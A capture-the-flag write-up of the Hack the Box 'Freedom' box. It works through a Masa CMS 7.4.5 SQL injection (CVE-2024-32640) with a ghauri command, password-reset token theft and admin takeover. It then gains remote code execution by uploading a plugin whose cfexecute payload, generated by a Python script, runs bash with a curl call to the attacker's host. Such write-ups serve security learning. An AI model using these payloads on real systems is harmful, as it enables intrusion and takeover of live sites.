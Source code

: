 # Freedom

Freedom is the second of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 

## Reconnaissance 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 16:01 CET
Nmap scan report for freedom.htb (10.129.242.128)
Host is up (0.044s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Since this machine appeared to be a windows host and more specifically a DC and we don’t have any credentials on the AD let’s try to see if we can grab anything using default accounts like Guest or anonymous :
```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "" -p "" --shares
SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [+] freedom.htb\: 
SMB         10.129.242.128  445    DC1              [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "guest" -p "" --shares

SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [-] freedom.htb\guest: STATUS_ACCOUNT_DISABLED 
```

Unfortunately this wasn’t very successful, same for enum4linux.

In our initial nmap scan we could see that the port 80 was open so let’s check it out. We realised it was cms running which was called “Masa CMS” and found several endpoints corresponding to an API : [http://freedom.htb/index.cfm/_api/json/v1/default/](http://freedom.htb/index.cfm/_api/json/v1/default/)

![Masa CMS API](/HTB-UNIVERSITY-2024/images/api_masa.png)

The website was essentially a blog with a search functionality that allowed us to filter the articles being posted there. We tried several payloads in order to get an xss or even a ssti but nothing successful.  

Checking out the robots.txt file we found this : 

```
User-agent: *
Crawl-Delay: 5
Disallow: /admin/
Disallow: /core/
Disallow: /modules/
Disallow: /config/
Disallow: /themes/
Disallow: /plugins/
```

And visiting the /admin endpoint redirected us to the login page of the CMS : `[http://freedom.htb/admin/?muraAction=clogin.main](http://freedom.htb/admin/?muraAction=clogin.main)`

![Masa CMS Login](/HTB-UNIVERSITY-2024/images/login_masa_cms.png)

No default or weak credentials turned out to work unfortunately so let’s dig deeper. 
Playing around with several requests and looking at the answers on burp we managed to pinpoint the exact version of the CMS : Masa CMS 7.4.5

  ![Masa CMS version](/HTB-UNIVERSITY-2024/images/masa_cms_version.png)
  
After a bit of research we found out that this version of Masa CMS was vulnerable to an SQLi : [https://projectdiscovery.io/blog/hacking-apple-with-sql-injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection)

## User flag/Root flag

Let's verify if our instance is indeed vulnerable : 

`http://freedom.htb/index.cfm//_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'&previewID=x`

![Masa CMS version](/HTB-UNIVERSITY-2024/images/masa_sql_error.png)

After searching for masa cms sqli we found this CVE with a POC:
  
[https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS)
  
After debugging and modifying a bit the script since it did not work for us on the first time we managed to use this payload:  
  
`ghauri -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C&previewID=x" -p contenthistid --dbs --current-db`

```
available databases [5]:
[] sys
[] performance_schema
[] information_schema
[] dbMasaCMS
[*] mysql
```

We dumped the DB and found an interesting table containing several users and their info -> including bcrypt password hashes but we were unable to crack them.

We then decided to change our approach by resetting the administrator password using the “forgot password button” and dumping the reset token in the db. 

![Reset admin pwd](/HTB-UNIVERSITY-2024/images/rest_admin_pwd.png)

At first we were unsuccessful at this and since the CMS was open source our idea was to reverse engineer the method responsible to generate forgotten password tokens : 

```
<cfset returnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#"> 

<cfelse>
<cfsetreturnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#">
```

Using infos found in the dumped db we managed to get close to a valid reset link : 

`http://freedom.htb/index.cfm/75296552-E0A8-4539-B1A46C806D767072/22FC551F-FABE-EA01-C6EDD0885DDC1682/?userID=75296552-E0A8-4539-B1A46C806D767072`

But it was flagged as `invalid or incorrect reset link`. Around the same time, a 
teammate managed to dump the link directly in the db using sqlmap : 

`http://freedom.htb/?display=editProfile&returnID=E7EAB9CD-78D7-4EBB-A3FA718298F0CF15&returnUserID=75296552-E0A8-4539-B1A46C806D767072`

![Token db](/HTB-UNIVERSITY-2024/images/token_db.png)

We can then reset the admin password to "admin" for exemple and login on the CMS.
After looking around the administration page we find an interesting feature : 
 
 ![Upload plugin](/HTB-UNIVERSITY-2024/images/upload_plugin.png)
While searching for plugin examples we stumbled accross this repository : https://github.com/MasaCMS/MasaAuthenticator

After spending quite some time analysing its source code and testing several payloads / uploading them on the CMS, we managed to get a remote code execution by modifying the following file : `config.xml.cfm`

Initially we used this tool [https://github.com/Impenetrable/ReverseFusion/tree/master](https://github.com/Impenetrable/ReverseFusion/tree/master "https://github.com/Impenetrable/ReverseFusion/tree/master")
to generate a reverse shell payload embedded into the .cfm file since we thought the target machine was a windows host (the DC). 

However while testing out our RCE payload, we got an error indicating it couldn't find cmd.exe and showed us clear sign of a linux host (Absolute path like "/var/www/html")

Let's modify the script to get a working RCE : 

```
import sys 
import base64

ip = input("Enter attacking IP address: ")
port = int(input("Enter attacking port number: "))
filename = input("Enter output file name: ")

payload = "curl http://10.10.14.182:4444/toto.txt" 
payload = f"arguments=\"-c {payload}\"" 

with open( filename+".cfm", "w+") as f: 
	f.write("<cfexecute name=\"/bin/bash\"\r") 
	f.write(payload+"\r") f.write("variable=\"data\"\r") 
	f.write("timeout=\"10\" />\r") 
	f.write("<cfdump var=\"#data#\">")

```

We zipped the whole plugin again with our malicious : `config.xml.cfm`

 ![Payload](/HTB-UNIVERSITY-2024/images/malicious_payload.png)
 
And uploaded it onto the CMS : 

![Zip exploit](/HTB-UNIVERSITY-2024/images/exploitzip.png)

Now to trigger our payload we just clicked on "Deploy" and we got our shell : 

![Reverse shell](/images/reverse_shell.png)

We get a shell on the wsl running on the windows host, but the whole C drive is mounted and we are root! A simple grep and we got both the user and the root flag at the same time! Our solve was completely unintended as the actual solve was mostly AD related (kerberoasting / asrep roasting / kerbrute..).
